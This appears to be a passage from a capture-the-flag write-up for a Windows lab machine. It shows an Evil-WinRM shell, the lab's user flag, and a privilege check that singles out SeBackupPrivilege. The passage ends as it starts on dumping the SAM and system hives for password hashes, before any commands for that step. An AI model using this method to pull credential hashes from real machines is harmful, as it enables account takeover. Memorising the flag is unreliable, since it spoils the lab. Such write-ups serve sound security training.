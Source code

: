 - Lets get the user flag:


```bash
*Evil-WinRM* PS C:\Users\Caroline.Robinson\Desktop> ls

    Directory: C:\Users\Caroline.Robinson\Desktop

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----         6/21/2016   3:36 PM            527 EC2 Feedback.website
-a----         6/21/2016   3:36 PM            554 EC2 Microsoft Windows Guide.website
-a----        11/21/2021   3:24 PM             36 user.txt

*Evil-WinRM* PS C:\Users\Caroline.Robinson\Desktop> type user.txt
VL{b2c6150b85125d32f4b253df9540d898}
```

Userflag: `VL{b2c6150b85125d32f4b253df9540d898}`

# Privilege Escalation

- For privilege escalation on windows I always start with `whoami /priv` to see what the user is allowed to do.


```bash
*Evil-WinRM* PS C:\Users> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeBackupPrivilege             Back up files and directories  Enabled
SeRestorePrivilege            Restore files and directories  Enabled
SeShutdownPrivilege           Shut down the system           Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled

```

- There are two privileges which should get your attention: `SeBackupPrivlige` and `SeRestorePrivilege`.

- Check the links below to get more information

https://github.com/nickvourd/Windows-Local-Privilege-Escalation-Cookbook?tab=readme-ov-file

https://medium.com/r3d-buck3t/windows-privesc-with-sebackupprivilege-65d2cd1eb960#ac58

## Getting sam and system hives

- We can get user hashes with the registry files from `sam` and `system`
- getting sam.hive and system.hive
